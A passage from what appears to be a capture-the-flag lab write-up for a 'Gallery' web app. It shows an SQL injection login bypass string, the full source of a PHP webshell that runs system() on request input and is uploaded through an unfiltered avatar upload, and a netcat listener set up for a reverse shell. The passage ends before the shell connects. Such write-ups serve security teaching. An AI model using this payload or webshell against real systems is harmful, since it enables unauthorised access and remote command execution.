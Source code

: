 Now, let's try it on the login page by entering `admin' or '1'='1'#` as the username and anything or blank for the password, then click the "Sign In" button:

![af0621d64c55faca243d378d66a7e965.png](/resources/aff1816c2ff54dda9d76fe3b8c932196.png)

![476057eb6f87b0105e5f2025d1d6ec9d.png](/resources/df17c5a3ac2744329cb3c61c51213805.png)

# Initial Foothold

### \[-] gallery.thm/gallery/?page=user

This Gallery System has the ability to upload a custom image for the user's avatar. We can access this feature by clicking on the drop down arrow next to "Administrator Admin", then click on the "My Account" button:

![f03ea425ea5aa326388646305a78cf32.png](/resources/17f5876de30647369c301cddf748464a.png)

The upload function does not filter the filetypes and allows any kind of file to be uploaded. We will be using this basic PHP webshell:

```php
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="x">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?php
if($_REQUEST['x']) {
  system($_REQUEST['x']);
  } else phpinfo();
?>
</pre>
</BODY></HTML>
```

Save the above code to a text file named "`webshell.php`" then upload it:

![0cf98fafcb18624cad92c29dcb272bdf.png](/resources/4b64f6278e8a4a40a6a17032ae7ced95.png)

After the file has been uploaded, we can navigate to the URL `http://gallery.thm/gallery/uploads/` where our webshell will be renamed as `XXXXXXXXXX_webshell.php`:

![3ad1e341f2409d253e6e48bda2eaae23.png](/resources/975a5c2db447442ea357eaeb1ed59da2.png)

### \[-] www-data\@gallery

To get a reverse shell, we will first start our [Netcat](https://linux.die.net/man/1/nc) listener on our attacking machine:

```sh
nc -nvlp 4444
```
